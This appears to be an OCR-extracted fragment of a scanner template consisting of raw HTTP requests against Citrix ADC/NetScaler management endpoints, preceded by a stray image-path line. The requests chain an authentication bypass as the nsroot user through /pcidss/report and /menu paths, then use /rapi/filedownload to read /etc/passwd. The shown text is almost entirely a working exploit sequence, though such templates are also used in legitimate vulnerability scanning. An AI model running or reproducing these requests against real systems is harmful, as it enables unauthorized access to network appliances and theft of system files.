 http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/2010-01-01 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§
